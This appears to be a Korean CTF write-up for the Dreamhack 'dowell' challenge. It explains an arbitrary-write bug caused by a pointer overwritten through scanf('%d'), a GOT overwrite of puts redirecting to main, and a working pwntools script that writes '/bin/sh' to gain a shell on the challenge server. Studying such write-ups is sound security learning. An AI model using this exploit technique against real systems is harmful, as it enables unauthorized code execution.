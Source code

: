 dreamhack dowell
============

## 코드 분석

<img width="656" height="381" alt="image" src="https://github.com/user-attachments/assets/0af47fa5-ab59-41ab-ae2b-6c034451db20" />


* 첫 번째 scanf: 정수형 입력 (%d)을 s[0]의 주소에 저장. s[0]은 char * 타입이므로 여기에 정수 값을 저장하면 포인터 값이 덮어씌워짐
* 두 번째 scanf: 문자열 입력 (%s)을 s[0]이 가리키는 주소에 저장. s[0]은 앞서 사용자 입력으로 덮어씌워진 값

## 익스플로잇

### 익스플로잇 분석: AAW(임의 주소 쓰기)


1.  **첫 번째 `__isoc99_scanf("%d", s);`:**

      * `s`는 `char *s[2]`로, `s[0]`과 `s[1]`을 포함하는 배열이다.
      * `s`의 주소는 사실상 `s[0]`의 주소와 동일합니다. `&s[0]`과 같다.
      * `%d` 형식 지정자는 정수를 입력받는다.
      * 문제는 `s[0]`이 `char *` 타입인데 여기에 `%d`로 정수 값을 입력받으면 `s[0]`이 가리키는 포인터 값이
        **사용자가 입력한 정수 값으로 덮어씌워지게 된다.**

2.  **두 번째 `__isoc99_scanf("%s", s[0]);`:**

      * `%s` 형식 지정자는 문자열을 입력받는다.
      * 여기서 `scanf`는 `s[0]`이 가리키는 주소에 문자열을 쓰려고 시도한다.
      * **앞서 첫 번째 `scanf`에서 `s[0]`의 값은 사용자가 임의로 지정한 주소로 변경되어 있다.**
      * 따라서 두 번째 `scanf`는
        **사용자가 첫 번째 `scanf`를 통해 지정한 임의의 메모리 주소(`s[0]`의 값)에 사용자가
        입력한 문자열을 쓸 수 있게 된다.**


*  **첫 번째 `scanf`로 `s[0]`의 값을 원하는 주소(`target_address`)로 조작한다.**
*  **두 번째 `scanf`로 `s[0]`이 가리키는 `target_address`에 원하는 데이터를 쓴다.**

---------------

일단 코드에서 쉘을 딸 수 있는 가장 유력한 방법은 **system함수의 인자인 st의 값을 조작해서 system("/bin/sh")를 실행** 하는 것이다.  

* st를 단순히 조작하기엔 이미 호출 시점에 system이 호출되고난 후이므로 main을 가지고 조작해야 한다.
* puts의 got 엔트리를 main의 시작 주소로 덮어씌운다면 puts가 호출될 때마다 프로그램 실행 흐름이 main 함수로 되돌아갈 것이다.
* AAW 취약점 (scanf("%d", s); 후 scanf("%s", s[0]);)을 이용하면 puts의 GOT 주소를 s[0]에 설정하고
   이후 main의 주소를 덮어쓸 수 있다.


### 익스플로잇 코드

```python
from pwn import *

p = remote("host1.dreamhack.games", 17420)
e = ELF("./prob")

main = e.symbols['main']
st = 0x0000000000404080
puts_got = e.got['puts']

p.sendlineafter("pt: ", str(int(puts_got)))
p.sendlineafter("input: ", p64(main))

p.sendlineafter("pt: ", str(int(st)))
p.sendlineafter("input: ", b'/bin/sh')

p.interactive()
```

## 실행 결과

<img width="797" height="537" alt="image" src="https://github.com/user-attachments/assets/2957ea7c-6928-4a05-80b2-25908cec767c" />






